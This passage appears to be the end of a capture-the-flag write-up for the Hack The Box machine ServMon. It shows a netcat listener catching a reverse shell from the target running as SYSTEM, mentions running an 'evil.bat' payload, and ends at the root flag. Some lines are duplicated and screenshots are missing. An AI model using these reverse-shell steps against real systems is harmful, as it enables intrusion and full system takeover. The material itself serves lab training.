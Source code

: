 **[SKIPPED]** we don't really need to achieve persistence or anything like that on the machine so you can ignore this. 

### 7. Restart the computer and wait for the reverse shell on attacking machine
	nc -nlvvp 443
	listening on [any] 443 ...
	connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671
	Microsoft Windows [Version 10.0.17134.753]
	(c) 2018 Microsoft Corporation. All rights reserved.

	C:\\Program Files\\NSClient++>whoami
	whoami
	nt authority\\system
	
**[SKIPPED]** we don't really need to achieve persistence or anything like that on the machine so you can ignore this. 

Run evil.bat and check your netcat instance:

![](/assets/img/htb_servmon/Screenshot_From_2024-10-01_00-20-26.png)

You should be greeted by a prompt, and if you run whoami, you should see this:

![](/assets/img/htb_servmon/Screenshot_From_2024-10-01_00-25-23.png)

Then if you navigate to the desktop for the administrator user, you should see the root.txt file:

![](/assets/img/htb_servmon/Screenshot_From_2024-10-01_00-29-22.png)

From there, you should see the root.txt file containing the root flag

Hope this helped, happy hacking!

